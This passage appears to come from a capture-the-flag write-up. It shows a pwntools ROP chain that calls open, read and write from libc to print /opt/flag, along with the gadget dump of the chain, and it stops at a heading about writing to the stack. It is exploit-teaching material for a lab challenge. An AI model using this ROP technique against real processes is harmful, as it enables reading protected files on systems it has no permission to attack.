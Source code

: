* First we write the `flagpath` to a memory location.
* Then call `open()` with the flagpath
* This returns a file descriptor which we in this case can guess.

The operating system already opens File descriptors 0, 1 and 2 as stdin, stdout and stderr. Since the program haven't opened any other files we an be quite certain that the next file descriptor is 3.

* Next we can `read()` from this file descriptor into memory.
* Then we `write()` this memory buffer out to `stdout` to print the flag!

pwntools makes it straight forward to write a rop chain for this purpose, as it can handle both open, read and write.

```python
flagpath = leek+0x200
flagbuffer = leek+0x210
WriteAdr(flagpath, b'/opt/flag\0')
rop = ROP(libc)
rop.open(flagpath, 0)
rop.read(3, flagbuffer, 128)
rop.write(1, flagbuffer, 128)
```

The actual rop-chain that is generated is far more complex in itself and can be a nice challenge to try to do by hand. 

Here is the output of rop.dump():

```
0x0000:   0x7fa9aa5fee51 pop rsi; ret
0x0008:              0x0 [arg1] rsi = 0
0x0010:   0x7fa9aa5fd3e5 pop rdi; ret
0x0018:   0x5626a21b2208 [arg0] rdi = 94723928433160
0x0020:   0x7fa9aa6e7690 open
0x0028:   0x7fa9aa6f2497 pop rdx; pop r12; ret
0x0030:             0x80 [arg2] rdx = 128
0x0038:      b'oaaapaaa' <pad r12>
0x0040:   0x7fa9aa5fee51 pop rsi; ret
0x0048:   0x5626a21b2218 [arg1] rsi = 94723928433176
0x0050:   0x7fa9aa5fd3e5 pop rdi; ret
0x0058:              0x3 [arg0] rdi = 3
0x0060:   0x7fa9aa6e7980 read
0x0068:   0x7fa9aa6f2497 pop rdx; pop r12; ret
0x0070:             0x80 [arg2] rdx = 128
0x0078:      b'faabgaab' <pad r12>
0x0080:   0x7fa9aa5fee51 pop rsi; ret
0x0088:   0x5626a21b2218 [arg1] rsi = 94723928433176
0x0090:   0x7fa9aa5fd3e5 pop rdi; ret
0x0098:              0x1 [arg0] rdi = 1
0x00a0:   0x7fa9aa6e7a20 write

``` 

## Write to the stack
